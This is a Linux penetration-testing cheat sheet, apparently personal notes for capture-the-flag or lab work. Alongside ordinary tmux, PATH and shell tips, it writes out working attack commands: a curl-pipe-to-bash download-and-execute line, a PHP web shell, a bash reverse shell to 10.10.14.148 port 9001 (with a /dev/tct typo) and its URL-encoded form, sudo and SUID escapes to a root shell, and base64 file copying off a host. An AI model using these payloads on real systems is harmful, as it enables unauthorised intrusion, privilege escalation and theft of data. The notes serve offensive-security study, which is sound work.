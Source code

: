 # Linux

## Linux

Website for searching for shells through random programs such as 'vi' "living off the land binaries": [GTFObins](https://gtfobins.github.io/)

### Enumeration

find files user has access to:

```bash
find / -user <username> -ls 2>/dev/null
```

`which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null` - Check if each of these useful programs are installed on the machine

[Linux Privilege Checker](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

full linux enumeration:

* [LinEnum.sh](https://github.com/rebootuser/LinEnum) 
* [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

download **and** execute script \(such as LinEnum.sh\) \[from remote host\]: `curl <url or IP>/LinEnum.sh | bash`

Locate exploits:

```bash
searchsploit <name_of_program> 

#to pull exploit code:
searchsploit -x <name/number of exploit>
```

enumerate running processes: `pspy`

`ps -U root -u root ux` View all processes started by a certain user \(root in this case\)

enumeration multi-tool: [Sparta](https://sparta.secforce.com/) \(does nmap, hydra, nikto, sqlscan, ssl...\)

Semi-automated enumeration all-in-one \(use this!\): [nmapAutomator](https://github.com/21y4d/nmapAutomator)

Unix hardening tool that can be used for enumeration: [Bastille](http://bastille-linux.sourceforge.net/)

enumerate info about current processes running from: `/proc/self/status`

common Local File Inclusion locations: [https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI](https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI)

### Upgrade shells:

```text
1. python -c 'import pty; pty.spawn("/bin/sh")'
2. perl -e 'exec "/bin/sh";'
3. ruby -e 'exec "/bin/sh"'
```

To upgrade to fully interactive shell \(python example\):

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; 
ctrl-z #[to background]
stty raw -echo; 
fg #[to return shell to foreground]
export TERM=xterm
```

php shell: `<?php system($_GET['variable_name']); ?>`

bash reverse shell:

```text
bash -i >& /dev/tct/10.10.14.148/9001 0>&1

#URL encoded: 
bash+-i+>%26+/dev/tcp/10.10.14.148/9001+0>%261
```

nc listener: `nc -lvnp <port>`

### TMUX

tmux can keep alive sessions if you lose ssh sessions etc, can split panes and more:

```text
tmux new -s <session_name> 
ctrl-b = prefix key (enables addnl commands) 
+[%] vertical pane  
+["] horizontal pane 
+[alt-space] switch pane between horizontal or vertical
+[arrow_keys] move between panes 
+[z] zoom in/out on pane 
+[?] help for tmux 
+[t] timer
```

tmux plugins:

* tmux logging plugin \(get this!!\) can save log of tmux windows
* [better mouse mode](https://github.com/NHDaly/tmux-better-mouse-mode)

### Privilege Escalation

[https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)

execute `sudo` command as another user: `sudo -u <username> [command]`

list user's sudo permissions: `sudo -l`

execute any command while in `less`: `!<cmd>`

Privilege Escalation to Root by setting suid on `/bin/less`: `chmod 47555 /bin/less`

Privilege Escalation to Root with `find`: `sudo find /etc -exec sh -i \;`

wildcard injection: \[NEED MORE HERE\]

```bash
mawk 'BEGIN {system("/bin/sh")}'
```

If your user can `sudo` any of these text editors:

```bash
1. [user@localhost]$ sudo vi
2. :shell
3. [root@localhost]#

1. [user@localhost]$ sudo less file.txt
2. !bash
3. [root@localhost]#

1. [user@localhost]$ sudo more long_file.txt
2. !bash
3. [root@localhost]#
Note: for this method to work, the attacker has to read a file that is longer than one page
```

### Remote Code Execution

[https://www.cyberciti.biz/faq/linux-unix-osx-bsd-ssh-run-command-on-remote-machine-server/](https://www.cyberciti.biz/faq/linux-unix-osx-bsd-ssh-run-command-on-remote-machine-server/) Run commands on remote system without a shell through SSH with a "Herefile"

```text
ssh server1 << HERE
 command1
 command2
HERE
```

### Misc Linux

Raw memory location so no files on disk: `/dev/shm/`

list all running commands:

```bash
ps -eo command`
#change delimiter to \n instead of <space> (loop by line): 
IFS=$'\n'
#Then loop through each line in output: 
for i in $(ps -eo command); do echo $i; done
```

[https://unix.stackexchange.com/questions/211817/copy-the-contents-of-a-file-into-the-clipboard-without-displaying-its-contents](https://unix.stackexchange.com/questions/211817/copy-the-contents-of-a-file-into-the-clipboard-without-displaying-its-contents) script to copy contents of file directly to clipboard; Save in PATH location then enjoy!

```text
#! /bin/bash
xclip -selection clipboard -i $@
```

'new' netstat: `ss -lnp | grep 9001` \#check if any connections on port 9001

copy files to local machine without file transfer:

```bash
base64 -w 0 /path/of/file/name.file 
#copy base64 then: 
echo -n <base64material> | base64 -d > filename.file
```

pretty print JSON text in console \([https://www.howtogeek.com/529219/how-to-parse-json-files-on-the-linux-command-line-with-jq/](https://www.howtogeek.com/529219/how-to-parse-json-files-on-the-linux-command-line-with-jq/)\). Pipe the JSON output to `jq`. Example from NASA ISS API: `curl -s http://api.open-notify.org/iss-now.json | jq`

web application fuzzer: [wfuzz](https://github.com/xmendez/wfuzz)

convert rpm to debian packages: `alien <file.rpm>`

`sudo rm --force $(which <file_name>)` Remove all instances of a certain file. Could be used with `find` instead of `which`. dangerous with --force!!

cycle through previous arguments: `alt-.`

move between "words" on a command line `ctrl-[arrow_keys]`

### PATH

Add new $PATHs to `.profile` rather than `.bashrc`, then `source ~/.profile` to use new PATHs

Makes `pwd` part of path so dont need `./`  _NOT RECOMMENDED for home use!_  `export PATH='pwd':$PATH`

The bullet-proof way to add a path \(e.g., ~/opt/bin\) to the PATH environment variable is: \(from [https://unix.stackexchange.com/questions/26047/how-to-correctly-add-a-path-to-path](https://unix.stackexchange.com/questions/26047/how-to-correctly-add-a-path-to-path)\)

```text
PATH="${PATH:+${PATH}:}~/opt/bin"
for appending (instead of PATH="$PATH:~/opt/bin") and

PATH="~/opt/bin${PATH:+:${PATH}}"
for prepending (instead of PATH="~/opt/bin:$PATH")
```

